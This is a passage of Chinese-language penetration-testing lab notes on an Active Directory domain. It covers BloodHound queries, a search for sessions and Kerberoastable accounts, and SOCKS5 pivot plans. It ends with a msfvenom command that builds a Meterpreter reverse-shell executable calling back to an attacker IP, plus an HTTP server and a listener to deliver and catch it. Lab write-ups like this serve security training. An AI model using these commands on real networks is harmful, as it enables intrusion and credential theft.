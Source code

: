 - Find Workstations where Domain Users can RDP
- Find Servers where Domain Users can RDP
- Find Computers where Domain Users are Local Admin
- Shortest Path to Domain Admins from Owned Principals

Analysis 的以上條件都不符合\
另外，也沒有 Domain User 是任何本機的 Local Admin。因此，我們沒有以 john 或 marcus 身分存取任何網域電腦的特權

### Services and Sessions

>[!Note]
>進一步分析內網環境，找出更多潛在的攻擊向量。
> - 查詢目前活躍的使用者登入會話 (Sessions)
> - 尋找可以進行 Kerberoasting 攻擊的帳號
> - 透過 SOCKS5 Proxy 進行內部網路掃描
> - 存取 INTERNALSRV1 上的 WordPress 站點

#### 1. 確認目前登入的使用者 (Active Sessions)
Cypher 查詢列出所有登入的使用者
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```
![image](https://hackmd.io/_uploads/By_jgNPnkx.png)
> 1. CLIENTWK1 → marcus (已知)
>2. MAILSRV1 → beccy (域管理員):若拿到機器的特權訪問，就可以提取該用戶的 NTLM hash
>3. INTERNALSRV1 → Administrator (本機管理員): RID 500

#### 2. 確認可以進行 Kerberoasting 的帳號
識別網域中所有 kerberoastable 使用者\
Analysis 選擇 List All Kerberoastable Accounts\
![image](https://hackmd.io/_uploads/Bk7eMEDhJx.png)
> daniela 也是可攻擊目標

daniela > Node Info > Service Principal Names\
SPN: `http/internalsrv1.beyond.com`

>[!Note]
>假設 `INTERNALSRV1` 上執行一個 Web 伺服器。一旦我們執行了 Kerberoasting 可能獲得 daniela 的明文密碼，就可以使用它來存取 `INTERNALSRV1`。\
>使用 Kerberoasting 攻擊來取得 Hash

#### 3. 透過 SOCKS5 Proxy 進行內網掃描
需要對內網進行 `Nmap` 和 `CrackMapExec` 掃描
#### 3.1 使用 msfvenom 產生 Meterpreter Reverse Shell
```
┌──(chw㉿CHW)-[~/beyond]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.214 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: met.exe

┌──(chw㉿CHW)-[~/beyond]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
啟用 msfconsole  監聽
```
┌──(chw㉿CHW)-[~/beyond]
└─$ sudo msfconsole -q
[sudo] password for chw: 
msf6 > use multi/handler
```